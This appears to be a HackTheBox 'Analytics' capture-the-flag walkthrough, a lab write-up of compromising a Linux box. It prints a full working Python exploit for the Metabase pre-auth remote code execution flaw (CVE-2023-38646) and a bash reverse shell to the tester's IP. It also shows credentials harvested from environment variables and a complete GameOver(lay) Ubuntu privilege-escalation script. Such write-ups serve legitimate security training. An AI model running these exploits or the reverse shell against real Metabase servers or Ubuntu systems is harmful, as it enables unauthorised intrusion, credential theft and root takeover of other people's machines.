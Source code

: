 ```yaml
---
title: Analytics
tags:
  - HackTheBox
  - Easy
  - Linux
  - Metabase
  - Ubuntu
  - GameOverlay
date: 2024-09-05T00:00:00Z
---
```

![](Pasted%20image%2020241105225943.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- analytical.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http
|_http-title: Analytical
```

So I checked its webpage:

![](Pasted%20image%2020241105230243.png)

I tried to check the login but I needed to add the subdomain `data.analytical.htb`:

![](Pasted%20image%2020241105230747.png)

After adding it, we get a Metabase login:

![](Pasted%20image%2020241105230942.png)

## Weaponization

I searched for "*Metabase exploit*" in google and found [CVE-2023-38646 Poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc).
- You could also try [This exploit](https://www.exploit-db.com/exploits/51797)

```python
from argparse import ArgumentParser
from string import ascii_uppercase

import base64
import random
import requests


def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload


parser = ArgumentParser('Metabase Pre-Auth RCE Reverse Shell', 'This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646')

parser.add_argument('-u', '--url', type=str, required=True, help='Target URL')
parser.add_argument('-t', '--token', type=str, required=True, help='Setup Token from /api/session/properties')
parser.add_argument('-c', '--command', type=str, required=True, help='Command to be execute in the target host')

args = parser.parse_args()

print('[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]\n')

print('[+] Initialized script')

print('[+] Encoding command')

command = encode_command_to_b64(args.command)

url = f'{args.url}/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": args.token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

print('[+] Making request')

request = requests.post(url, json=payload, headers=headers)

print('[+] Payload sent')
```

## Exploitation

First, we must get the setup token (can be obtained under `/api/session/properties` endpoint):

![](Pasted%20image%2020241105231409.png)

In my case it's `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`.

Then I executed the script like:

```shell
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.24/666 0>&1"
```

> Now we've got a reverse shell :D

![](Pasted%20image%2020241105231829.png)

## Lateral Movement

It seems that we are inside a container:

![](Pasted%20image%2020241105232148.png)

We can also see a `metabase.db` database, which could hide some credentials.

If we run `printenv` we can see the variables that were set:

```shell
printenv

[redacted]
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

> Now we've got credentials (that worked via ssh on the host machine :D). We can now read user flag!

![](Pasted%20image%2020241105232944.png)

## Privilege Escalation

We can obtain the kernel version of the OS with `uname -a`:

```shell
uname -a

Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linu
```

So as it is an Ubuntu, we can check the version of it and the release with `lsb_release -a`:

```shell
lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

So if we search for "*Ubuntu jammy exploit*" we find [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), also called **GameOver(lay)**:

```shell
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> If we execute it we become root and can read root flag :D

![](Pasted%20image%2020241105235102.png)

==Machine pwned!==


